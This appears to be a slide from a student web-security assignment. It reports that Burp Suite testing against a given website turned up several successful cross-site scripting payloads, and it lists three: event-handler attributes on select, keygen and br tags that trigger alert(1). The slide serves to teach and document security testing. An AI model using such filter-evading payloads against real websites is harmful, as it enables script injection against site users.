

# Task 3 (Continued)
Some Examples of successful payloads are :
<select onchange=alert(1)><option>1<option>2
<keygen autofocus onfocus=alert(1)>
<br onmouseenter="alert(1)">test</br>
CONCLUSION : Used Burp suite and found different successful payloads that can be used on given website.

7